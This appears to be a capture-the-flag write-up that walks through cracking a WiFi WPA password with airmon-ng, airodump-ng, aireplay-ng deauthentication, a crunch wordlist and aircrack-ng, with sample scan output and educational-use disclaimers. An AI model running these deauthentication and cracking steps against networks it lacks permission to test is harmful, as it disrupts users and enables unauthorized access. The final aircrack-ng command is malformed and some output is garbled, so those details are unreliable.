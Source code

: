 # CTF: WIFI Password Cracker Solution

## Overview

This document provides a step-by-step guide to crack a WIFI password using various tools. This is intended for educational purposes and should only be used on networks you have permission to test.

## Tools Required

- `iwconfig`: To check network interfaces.
- `airmon-ng`: To enable monitor mode.
- `airodump-ng`: To capture network traffic.
- `aireplay-ng`: To deauthenticate users.
- `aircrack-ng`: To crack the WIFI password.
- `crunch`: To create a wordlist (optional).

## Steps

### 1. Check Network Interface

First, identify the network interfaces available on your system.

```sh
iwconfig
```

### 2. Switch to Monitor Mode

Enable monitor mode on the desired network interface.

```sh
airmon-ng start wlan0

iwconfig
```

**Example Output:**

```text
lo        no wireless extensions.

br-d212c57f6d84  no wireless extensions.

br-314938f5e24  no wireless extensions.

docker0   no wireless extensions.

wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.427 GHz  
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

### 3. Check for Open Network Connections

Scan for available networks.

```sh
airodump-ng wlan0mon
```

**Example Output:**

```text
[CH  3 ][ Elapsed: 1 min ][ 2024-11-07 23:29] 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER 

 AUTH

 ESSID

 B0:BE

:

 76:EB:BE:E4   -1        0        0    0   1   -1                    <length:  0>                            
 E6:63:DA:6E:9D:05  -16        0        0    0  11  130   OPN              XXX_Student_WiFi                        
 48:E6:63:A3:03:C5  -25        1        0    0   5  720   WPA3 CCMP   SAE  low_2.4G.the101_UMJK                    
 E6:63:DA:6E:9C:D2  -86        1        6    1  11  130   OPN              XXX_Student_WiFi                                                   
...

 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes

 E6:63:DA:6E:9F:80  F6:A0:6D:74:FF:9C  -71    6e- 1e     0      275                                                 
 E6:63:DA:6E:9F:80  7A:2E:14:F4:C1:4D  -29    0 - 1      0        7         XXX_Student_WiFi     
...
```

### 4. Monitor Traffic to a Specific Network Channel

Capture traffic on a specific channel and BSSID.

```sh
airodump-ng -c CHANNEL_ID --bssid CHANNEL_BSSID -w /root wlan0mon
```

### 5. Deauthenticate a User from the Network Channel

Send deauthentication packets to a user on the network.

```sh
aireplay-ng --deauth DEAUTH_COUNT -a CHANNEL_BSSID wlan0mon
```

### 6. Capture the Handshake

The handshake is captured during the monitoring process. Ensure you have captured the handshake before proceeding to crack the password. The handshake file is typically saved with a `.cap` extension.

**Example Output:**

![HandShake](handshake.png)

### 7. Create a Wordlist

If you do not have a wordlist, you can create one using tools like `crunch`.

```sh
crunch 8 8 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -o wordlist.txt
```

This command generates a wordlist with all possible combinations of 8 characters using the specified character set. You can also get some good wordlists to extend to from this [link](https://github.com/TebogoYungMercykay/Thousands_Of_Resources_Related_To_H4cking/tree/master/cracking_passwords/more_wordlists).

### 8. Crack the WIFI Password with Your Wordlist

After capturing the handshake, use a wordlist to crack the password.

```sh
sudo aircrack-ng -a 272:9A:0C:44:4A:82 -w wordlist.txt handshake.cap
```

## Notes

- Ensure you have the necessary permissions to perform these actions on the network.
- This guide is for educational purposes only.

---
---
